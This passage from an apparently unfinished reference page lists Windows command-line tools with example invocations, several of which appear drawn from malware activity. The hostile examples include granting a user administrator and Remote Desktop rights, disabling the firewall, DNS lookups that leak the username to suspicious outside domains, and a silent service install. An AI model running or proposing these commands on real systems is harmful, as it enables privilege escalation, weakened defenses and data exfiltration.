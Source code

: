     net config workstation
    net localgroup "Remote Desktop Users" Matthew /add
    net localgroup administrators Matthew /add
    net session
    net start "Data Sharing Service"
    net stop TeamViewer
    net stop osppsvc /y

### netsh
Function: *//will be add later*

Command  line examples:

    netsh advfirewall firewall add rule name="DriverPack aria2c.exe" dir=in action=allow program="%TEMP%\7ZipSfx.001\bin\tools\aria2c.exe"
    netsh advfirewall set allprofiles state off
    netsh advfirewall set allprofiles state on
    netsh int ipv6 isatap show state
    netsh int tcp reset
    netsh int tcp set heuristics disabled

### nslookup
Function: *//will be add later*

Command  line examples:

    nslookup -q=txt djowy612ygosvyd.com 208.67.220.220
    nslookup -type=a %OSUSER%.check.francefriends.tk.
    nslookup ransomware.bit ns1.wowservers.ru

### nssm.exe
Function: *//will be add later*

Command  line examples:

    nssm.exe /install /silent "iSASService" %PROGRAMFILES%\Java\jre1.8.0_25\bin\java.exe

### ping
Function: *//will be add later*

Command  line examples:

    ping -n 0 localhost
    ping -n 1 127.0.0.1
    ping -n 2 -w 1000 127.0.0.1
    ping -t 2 -l 10 127.0.0.1
    ping google.com

### powershell.exe
Function: *//will be add later*

Command  line examples:

    powershell.exe "-file" "C:\01674bf1099edd830c974553a4de062f42c5e6759adb6b4da7aadfdd838cc00c.ps1"
